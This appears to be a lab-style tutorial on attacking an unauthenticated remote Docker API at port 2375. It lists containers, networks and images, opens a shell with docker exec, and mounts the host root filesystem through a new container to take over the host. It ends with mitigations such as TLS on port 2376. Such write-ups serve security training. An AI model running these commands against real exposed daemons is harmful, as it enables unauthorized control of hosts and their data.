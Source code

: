 
### **Step 3: Executing Docker Commands on the Target**

#### **Listing Running Containers**
Use the `docker` CLI with the `-H` flag to connect to the target:
```bash
docker -H tcp://10.10.74.174:2375 ps
```

Example Output:
```
CONTAINER ID   IMAGE        COMMAND               CREATED        STATUS         PORTS                               NAMES
b4ec8c45414c   dockertest   "/usr/sbin/sshd -D"   10 hours ago   Up 7 minutes   0.0.0.0:22->22/tcp, :::22->22/tcp   priceless_mirzakhani
```

This output lists all running containers, their images, ports, and names.

---

### **Step 4: Exploiting the Remote Docker API**

Once confirmed, you can execute various Docker commands on the target.

#### **Examples**:

1. **List Docker Networks**:
   ```bash
   docker -H tcp://10.10.74.174:2375 network ls
   ```
   - Discover networks to identify potential pivot points.

2. **List Docker Images**:
   ```bash
   docker -H tcp://10.10.74.174:2375 images
   ```
   - View container images for reverse-engineering or data extraction.

3. **Execute a Command on a Running Container**:
   ```bash
   docker -H tcp://10.10.74.174:2375 exec -it <container_id> /bin/sh
   ```
   - Access a shell on a running container.

4. **Start a New Container**:
   Deploy a new container to perform malicious actions:
   ```bash
   docker -H tcp://10.10.74.174:2375 run -v /:/mnt --rm -it alpine chroot /mnt sh
   ```

---

### **Mitigation Strategies**

#### **1. Secure the Docker API**
- Use **HTTPS (port 2376)** instead of HTTP.
- Configure TLS certificates to authenticate and encrypt API access.
